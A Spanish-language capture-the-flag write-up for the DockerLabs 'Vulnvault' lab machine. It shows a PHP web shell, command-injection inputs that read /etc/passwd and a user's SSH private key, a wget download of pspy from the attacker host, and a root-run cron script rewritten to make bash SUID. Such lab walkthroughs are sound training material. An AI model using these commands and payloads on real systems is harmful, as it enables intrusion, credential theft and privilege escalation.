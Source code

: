 # Máquina Vulnvault

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/1asGQbRK#zvWJuwPfUI0P43b2YDBesILqJogA3tv3SVQn4oORmSI)

![imagen](https://github.com/user-attachments/assets/b937f6b2-9b8a-42a4-a96d-c0f091d31d9d)

- **Nombre de la Máquina:** Vulnvault
- **Sistema Operativo:** Linux
- **Dificultad:** Fácil
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - 
- **Escalada de Privilegios:**
  - 

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con Nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/9f4569f9-2dbd-4c20-a697-512a28d6df7b)

El escaneo muestra que los puertos 22 y 80 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutando en estos puertos.

```bash
sudo nmap -p 22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/4b799070-2115-4d9c-916d-bf744824459f)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver qué servicios corren en el puerto HTTP.

![imagen](https://github.com/user-attachments/assets/38d529ad-4c2e-40b7-9bff-57dd3090b300)

Al ingresar la dirección ip en el navegador, observamos la siguiente web.

![imagen](https://github.com/user-attachments/assets/e8b57ab6-7546-4af1-9536-98527df68d2c)

Vemos un botón que nos lleva a un directorio donde podemos subir archivos.

![imagen](https://github.com/user-attachments/assets/ab654f53-ed51-425b-aad3-9993ffcec5f6)

Hice un script en php para crear un parámetro con el que pueda ejecutar comandos y lo subí.

```php
<?php
  system($_GET["cmd"]);
?>
```

![imagen](https://github.com/user-attachments/assets/0a45e50b-783f-448b-a52f-08bd4485bbd0)

Salta una alerta diciendo que se subió correctamente pero no me muestra el directorio de donde se subió.

Revisando la web me doy cuenta que en los reportes sale una pista que dice lo siguiente:

```pista
Este sistema también está diseñado para demostrar la importancia de la seguridad en la generación de comandos. La entrada de datos debe ser manejada con cuidado para evitar la inyección de comandos maliciosos.
```

Estuve probando a ingresar comandos hasta que logré con el método y es que escribiendo por ejemplo `;ls` se ejecutaba el comando, lo guardaba en un `.txt` y lo mostraba por la web.

![imagen](https://github.com/user-attachments/assets/45d2dff4-0339-48e6-addf-7a8d0ec5fdc7)

Al tener ejecución de comandos voy a leer el `/etc/passwd` con ingresando el siguiente comando en el input `;cat /etc/passwd`.

![imagen](https://github.com/user-attachments/assets/1b24cab2-ff41-443c-9ac8-cec9d16eac27)

Vemos que solo existe un usuario llamado **samara**, intenté hacer fuerza bruta por ssh pero no logré la contraseña así que seguí investigando y ví que tiene una carpeta `.ssh` en su directorio personal.

![imagen](https://github.com/user-attachments/assets/ad83f05c-36bb-44d9-b16c-b0e98e51bef9)

![imagen](https://github.com/user-attachments/assets/506e7f96-ef1d-4a53-81ab-85b59343683b)

Observamos que tiene dentro el archivo `id_rsa` así que lo veremos con ingresando el comando `;cat /home/samara/.ssh/id_rsa`.

![imagen](https://github.com/user-attachments/assets/67bfdccf-f6f4-46ac-81a2-53c6f68fd609)

Lo copiamos y lo pegamos en nuestra máquina atacante para ingresar vía ssh, cambiaremos los permisos del archivo id_rsa con el comando `chmod 700 id_rsa`.

```bash
ssh samara@172.17.0.2 -i id_rsa
```

![imagen](https://github.com/user-attachments/assets/dbba1f18-000a-4f8d-8c18-b45058fe0c2e)

## Escalada de privilegios a root
Vemos un par de archivosc .txt pero no contienen nada relevante.

![imagen](https://github.com/user-attachments/assets/584bcfe2-abb3-4c91-a78e-b6f50798abe6)

Miro a ver is tiene permisos sudo o SUID y tampoco vemos nada.

![imagen](https://github.com/user-attachments/assets/bf7fe0c9-0f72-4b44-86b3-74695406f2ad)

Seguí investigando hasta que decidí ver los procesos que se ejecutaban con el programa [pspy](https://github.com/DominicBreuker/pspy/releases). Me lo pasé a la máquina víctima usando el comando:

```bash
python3 -m http.server 80
```

![imagen](https://github.com/user-attachments/assets/c9ade767-255a-4871-a9d9-bb716ae221d9)

```bash
wget http://172.17.0.1/pspy64
```

![imagen](https://github.com/user-attachments/assets/a97a85bb-7ee4-4a9e-816c-b7cfd058b48f)

Le damos permisos de ejecución y lo ejecutamos.

```bash
chmod +x pspy64
./pspy64
```

![imagen](https://github.com/user-attachments/assets/0b5ea009-b79f-4f5a-94ab-5270ea929afe)

Observamos que se está ejecutando constantemente el archivo `echo.sh` dentro de la ruta `/usr/local/bin/echo.sh`. Si hacemos un cat del archivo vemos lo siguiente:

```bash
#!/bin/bash

echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

Vemos que tnemos permisos de escritura así que modificaremos el script para que otorgue permisos SUID a la bash ya que el script lo ejecuta root automáticamente.

![imagen](https://github.com/user-attachments/assets/efa6f003-58b0-45ea-8676-e46de89261da)

```bash
nano /usr/local/bin/echo.sh
#!/bin/bash
chmod u+s /usr/bin/bash
```

![imagen](https://github.com/user-attachments/assets/7c17101f-f301-4d35-ba5c-60fd9ed9e876)

Una vez cambiado los permisos SUID, ejecutando el comando `bash -p` obtendremos una bash privilegiada con permisos root.

![imagen](https://github.com/user-attachments/assets/e182d3d3-c98a-49de-b9b7-ad6139a17459)
